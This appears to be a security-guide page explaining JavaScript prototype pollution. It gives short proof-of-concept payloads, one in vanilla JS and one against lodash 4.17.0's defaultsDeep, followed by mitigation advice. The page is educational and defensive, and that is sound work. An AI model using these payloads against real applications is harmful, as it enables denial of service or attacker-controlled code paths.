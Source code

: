 ```yaml
---
title: Prototype Pollution
sidebar_position: 6
---
```


# Prototype Pollution

## The Attack

It's a technical attack that requires a great understanding of JS internals like `__proto__`, `prototype`, [deep|shadow copy](https://we-are.bookmyshow.com/understanding-deep-and-shallow-copy-in-javascript-13438bad941c?gi=a658f8d5292b).

This bug was extended in popular libraries [like Lodash](https://snyk.io/blog/snyk-research-team-discovers-severe-prototype-pollution-security-vulnerabilities-affecting-all-versions-of-lodash/).

<iframe
  width='100%'
  height='450'
  src='https://www.youtube.com/embed/LUsiFV3dsK8'
></iframe>

> Prototype Pollution is a vulnerability affecting JavaScript. Prototype Pollution refers to the ability to inject properties into existing JavaScript language construct prototypes, such as objects.
> (...) When that happens, it leads to either denial of service by triggering JavaScript exceptions, or it tampers with the application source code to force the code path the attacker injects, thereby leading to remote code execution
>
> - [Snyk VulnerabilityDB](https://snyk.io/vuln/SNYK-JS-LODASH-450202)

This is a raw pollution in vanilla js

```js
const a = { a: 1, b: 2 }
const data = JSON.parse('{"__proto__": { "polluted": true}}')

const c = Object.assign({}, a, data)
console.log(c.polluted) // true
```

This was a vulnerability in `lodash@4.17.0`

```js
// npm install lodash@4.17.0
// https://cdnjs.cloudflare.com/ajax/libs/lodash.js/4.17.0/lodash.min.js
const mergeFn = require('lodash').defaultsDeep
const payload = '{"constructor": {"prototype": {"polluted": true}}}'

mergeFn({}, JSON.parse(payload))

const newObject = {}
console.log(newObject.polluted) //true
```

## The solution

There are no definitive solutions to avoid this attack but it can be highly mitigated.

## Mitigation

- If you can use `Map` over `Object`
- Avoid [insecure recursive merges](https://gist.github.com/DaniAkash/b3d7159fddcff0a9ee035bd10e34b277#file-unsafe-merge-js)
- Use objects without prototype for recursive merges, like `Object.create(null)`
- Try to implement JSON Schema validations
- As an extra mile you can freeze the prototype, but this can be a potential bad practice: `Object.freeze(Object.prototype)`

### Refs

- [SNYK-JS-LODASH-450202 | Prototype Pollution](https://snyk.io/vuln/SNYK-JS-LODASH-450202)
- [Snyk | Snyk research team discovers severe prototype pollution security vulnerabilities affecting all versions of Lodash](https://snyk.io/blog/snyk-research-team-discovers-severe-prototype-pollution-security-vulnerabilities-affecting-all-versions-of-lodash/)
- [Manjula Dube | Understanding Deep and Shallow Copy in Javascript](https://we-are.bookmyshow.com/understanding-deep-and-shallow-copy-in-javascript-13438bad941c)

